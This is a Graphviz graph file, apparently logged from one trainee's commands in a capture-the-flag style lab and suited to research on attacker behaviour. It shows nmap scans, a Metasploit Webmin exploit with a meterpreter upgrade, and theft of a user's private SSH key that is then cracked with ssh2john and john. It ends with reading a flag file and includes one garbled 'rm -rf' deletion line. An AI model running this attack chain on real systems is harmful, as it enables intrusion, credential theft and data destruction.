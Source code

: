 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 M0 "]
	2 [label="nmap -p- 172.18.1.5 M0 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 M0 "]
	5 [label="msfconsole M2 "]
	6 [label="help U"]
	7 [label="search webmin M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options M5 "]
	12 [label="set RHOSTS 172.18.1.5 M6 "]
	13 [label="show options M5 "]
	14 [label="exploit M8 "]
	15 [label="ip U"]
	16 [label="ip address U"]
	17 [label="set LHOST 10.1.135.83 M6 "]
	18 [label="exploit M8 "]
	19 [label="search shell_to_meterpreter A3 "]
	20 [label="use 0 A4 "]
	21 [label="sessions -l U"]
	22 [label="show options M5 "]
	23 [label="set SESSION 2 A6 "]
	24 [label="run M8 "]
	25 [label="sessions 2 U"]
	26 [label="sessions - U"]
	27 [label="sessions 2 U"]
	28 [label="search webmin M3 "]
	29 [label="use 3 A4 "]
	30 [label="exploit M8 "]
	31 [label="ping rm /home/eve/* -rf U"]
	32 [label="logout U"]
	33 [label="ping 10.1.18.22 U"]
	34 [label="ping 10.1.18.22 U"]
	35 [label="exit U"]
	36 [label="show options M5 "]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub M12 "]
	45 [label="ssh eve@172.18.1.5 M16 "]
	46 [label="sessions 5 U"]
	47 [label="ssh eve@10.1.17.4 M16 "]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	50 [label="cd .ssh A16 "]
	51 [label="ls A10 "]
	52 [label="cat id_rsa M12 "]
	53 [label="ls A10 "]
	54 [label="vim key U"]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa M16 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa M16 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' M16 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key M16 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 A16 "]
	61 [label="./ssh2john.py A14 A16 "]
	62 [label="./ssh2john.py key > crack.txt A14 A16 "]
	63 [label="cat crack.txt A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	65 [label="cd Desktop/ U"]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	68 [label="cd .. U"]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	71 [label="cd /usr/share U"]
	72 [label="ls A10 "]
	73 [label="cd wordlists/ U"]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	76 [label="ssh eve@10.1.17.4 M16 "]
	77 [label="exit U"]
	78 [label="ls A10 "]
	79 [label="cd top-secret/ U"]
	80 [label="ls A10 "]
	81 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
